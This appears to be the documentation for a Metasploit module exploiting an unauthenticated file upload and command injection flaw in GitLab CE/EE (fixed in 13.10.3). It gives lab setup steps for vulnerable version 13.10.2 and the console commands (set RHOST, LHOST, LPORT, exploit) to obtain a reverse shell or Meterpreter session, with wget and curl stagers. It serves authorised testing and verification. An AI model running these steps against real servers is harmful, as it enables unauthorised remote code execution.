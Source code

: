 ## Vulnerable Application

### Description

This module exploits an unauthenticated file upload and command injection vulnerability in GitLab Community Edition (CE) and
Enterprise Edition (EE). The patched versions are 13.10.3, 13.9.6, and 13.8.8.

Exploitation will result in command execution as the git user.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.deb`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use exploit/multi/http/gitlab_exif_rce`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `set LPORT <port>`
* Do: `exploit`
* You should get a Meterpreter session.

## Targets

### 0

By default, this targets GitLab with the `reverse_openssl` payload and returns a reverse shell.

### 1

By default, this target obtains a meterpreter session using `wget`. This target also supports
`lwprequest`, `curl`, and `printf`.

## Options

### TARGETURI
